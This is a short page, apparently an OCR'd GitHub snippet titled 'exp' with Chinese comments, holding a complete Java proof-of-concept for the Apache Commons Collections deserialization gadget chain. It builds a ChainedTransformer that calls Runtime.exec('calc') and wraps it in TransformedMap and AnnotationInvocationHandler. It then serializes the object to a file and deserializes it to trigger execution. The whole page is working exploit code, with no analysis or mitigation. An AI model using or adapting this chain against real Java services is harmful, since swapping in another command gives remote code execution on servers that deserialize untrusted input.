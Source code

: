 exp:

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class demo {
    public static void main(String[] args) throws Exception {
        //代码执行
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]
                        {"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
		//遍历map
        HashMap<Object,Object> map = new HashMap();
        map.put("value","aaa");
        Map<Object,Object> transformedMap  = TransformedMap.decorate(map,null,chainedTransformer);
		
        
        //反射调用
        Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

        Constructor annotationInvocationHandlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationHandlConstructor.setAccessible(true);
        Object o = annotationInvocationHandlConstructor.newInstance(Target.class,transformedMap);
        //序列化与反序列化
        serialize(o);
        unserialize("ser2.bin");

    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser2.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

